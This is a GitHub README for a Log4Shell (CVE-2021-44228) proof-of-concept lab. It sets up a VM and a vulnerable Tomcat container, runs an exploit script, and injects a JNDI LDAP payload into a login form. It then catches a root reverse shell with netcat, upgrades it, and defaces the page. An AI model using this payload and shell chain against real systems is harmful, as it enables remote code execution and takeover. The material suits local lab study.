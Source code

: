 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

7. Connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

#### Terminal 2: Launch exploit

```bash
┌──(debuser㉿deblab)-[/log4jlab]
└─$ cd /log4jlab/; ls
Dockerfile     jdk-8u20-linux-x64.tar.gz  requirements.txt
Exploit.class  LICENSE                    target
Exploit.java   poc.py                     vulnerable-application
jdk1.8.0_20    README.md

┌──(debuser㉿deblab)-[/log4jlab]
└─$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001       

[!] CVE: CVE-2021-44228                                                      
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                   
                                                                             
[+] Exploit java class created success
[+] Setting up LDAP server
                                                                             
[+] Send me: ${jndi:ldap://localhost:1389/a}
                                                                             
[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
┌──(debuser㉿deblab)-[/log4jlab]
└─$ cd /log4jlab/

┌──(debuser㉿deblab)-[/log4jlab]
└─$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in 118c9f3dab57
Removing intermediate container 118c9f3dab57
 ---> 0a7905e32954
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> c038eb1ce771
Step 4/5 : EXPOSE 8080
 ---> Running in e44c024ec983
Removing intermediate container e44c024ec983
 ---> 58cbb415ad3a
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in d10ead2ef23b
Removing intermediate container d10ead2ef23b
 ---> 989227232ea8
Successfully built 989227232ea8
Successfully tagged log4j-shell-poc:latest

┌──(debuser㉿deblab)-[/log4jlab]
└─$ docker run --network host log4j-shell-poc                                
25-Apr-2022 00:10:33.847 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-kali3-amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-Apr-2022 00:10:33.855 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-Apr-2022 00:10:33.919 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:33.929 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:33.930 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 380 ms
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.968 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-Apr-2022 00:10:34.099 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-Apr-2022 00:10:34.368 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-Apr-2022 00:10:34.389 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 420 ms
25-Apr-2022 00:10:34.390 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:34.408 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:34.409 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 478 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell.png)

The hack succeeded when the netcat listener gives:

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
```

### Hack along

You can check your access and log4shell

```bash
┌──(debuser㉿deblab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
┌──(debuser㉿deblab)-[~]
└─$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```
